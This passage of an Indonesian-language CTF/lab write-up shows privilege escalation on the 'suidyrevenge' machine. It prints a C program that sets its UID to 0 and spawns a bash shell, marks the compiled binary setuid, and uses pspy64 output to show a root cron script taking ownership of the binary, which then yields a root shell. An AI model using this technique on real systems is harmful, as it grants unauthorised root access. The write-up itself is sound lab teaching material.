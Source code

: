setelah itu, saya _just in case_ dengan membuat `small script` yang terbuat dari bahasa C.

    #include <stdio.h>
    #include <stdlib.h>
    
    void main() {
            setresuid(0,0,0);
            system("/bin/bash -p");
    }
    

lalu saya compile dan saya beri izin `executable` agar nanti bisa dieksekusi.

    suidy@suidyrevenge:/home/suidy$ gcc exploit.c -o exploit.o
    suidy@suidyrevenge:/home/suidy$ mv exploit.o suidyyyyy
    suidy@suidyrevenge:/home/suidy$ chmod 4755 suidyyyyy
    suidy@suidyrevenge:/home/suidy$ ls -la | grep "suidyyyyy"
    -rwsr-sr-x 1 suidy theuser  16664 Nov  4 15:13 suidyyyyy
    

in other words, i be waiting for the time with `pspy64`.

    2022/11/04 13:47:29 CMD: UID=0    PID=101    | 
    2022/11/04 13:47:29 CMD: UID=0    PID=100    | 
    2022/11/04 13:47:29 CMD: UID=0    PID=10     | 
    2022/11/04 13:47:29 CMD: UID=0    PID=1      | /sbin/init 
    2022/11/04 13:47:52 CMD: UID=1004 PID=14068  | -bash 
    2022/11/04 13:47:57 CMD: UID=0    PID=14069  | 
    2022/11/04 13:48:01 CMD: UID=0    PID=14070  | /usr/sbin/CRON -f 
    2022/11/04 13:48:01 CMD: UID=0    PID=14071  | /usr/sbin/CRON -f 
    2022/11/04 13:48:01 CMD: UID=0    PID=14072  | /bin/sh -c sh /root/script.sh 
    2022/11/04 13:48:01 CMD: UID=0    PID=14073  | sh /root/script.sh 
    2022/11/04 13:48:01 CMD: UID=0    PID=14074  | sh /root/script.sh 
    2022/11/04 13:48:01 CMD: UID=0    PID=14075  | sh /root/script.sh 
    2022/11/04 13:48:01 CMD: UID=0    PID=14076  | sh /root/script.sh 
    2022/11/04 13:48:01 CMD: UID=0    PID=14077  | sh /root/script.sh 
    2022/11/04 13:48:01 CMD: UID=0    PID=14078  | sh /root/script.sh 
    

Wooopppp.

    suidy@suidyrevenge:/home/suidy$ ls -la | grep "suidyyyyy"
    -rwsrws--- 1 root  theuser  16712 Nov  4 15:14 suidyyyyy
    

tinggal execute aja ma brother.

    suidy@suidyrevenge:/home/suidy$ ./suidyyyyy 
    root@suidyrevenge:/home/suidy# ls -la /root
    total 56
    drwx------  3 root root  4096 Oct  2  2020 .
    drwxr-xr-x 18 root root  4096 Oct  1  2020 ..
    -rw-------  1 root root   127 Oct  2  2020 .bash_history
    -rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
    drwxr-xr-x  3 root root  4096 Oct  1  2020 .local
    -rw-r--r--  1 root root   148 Aug 17  2015 .profile
    -rw-r-----  1 root root  1961 Oct  2  2020 root.txt
    -rwxr-x--x  1 root root   517 Oct  1  2020 script.sh
    -rw-r--r--  1 root root    66 Oct  1  2020 .selected_editor
    -rwxr-xr-x  1 root root 16712 Oct  2  2020 suidyyyyy

## References
* [https://book.hacktricks.xyz/linux-hardening/privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

